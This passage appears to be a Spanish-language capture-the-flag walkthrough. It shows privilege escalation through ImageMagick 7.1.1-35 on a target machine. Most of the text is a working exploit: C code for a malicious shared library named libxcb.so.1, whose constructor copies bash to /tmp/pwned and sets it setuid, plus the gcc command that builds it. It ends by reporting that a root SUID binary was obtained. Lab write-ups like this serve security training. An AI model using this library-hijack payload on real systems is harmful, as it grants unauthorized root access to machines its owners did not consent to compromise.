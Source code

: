 Al ver la versión de magick podemos observar que este tiene la versión 7.1.1-35

![20250830003929.png](20250830003929.png)

## ImageMagick 7.1.1-35

Luego de investigar encontraremos que esta aplicación en esta versión tiene una vulnerabilidad.

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
__attribute__((constructor)) void init(){
    system("busybox cp /bin/bash /tmp/pwned; chmod +s /tmp/pwned");
    exit(0);
}
```

El anterior script nos permitirá escalar privilegios como root, ejecutando el siguiente comando para copilar nuestro exploit.

```c
gcc -shared -fPIC -o libxcb.so.1 exploit.c
```

![20250830005515.png](20250830005515.png)

Luego de esperar un tiempo observamos que nuestro exploit fue ejecutado, y tenemos nuestro binario con permisos suid y así poder escalar a root.
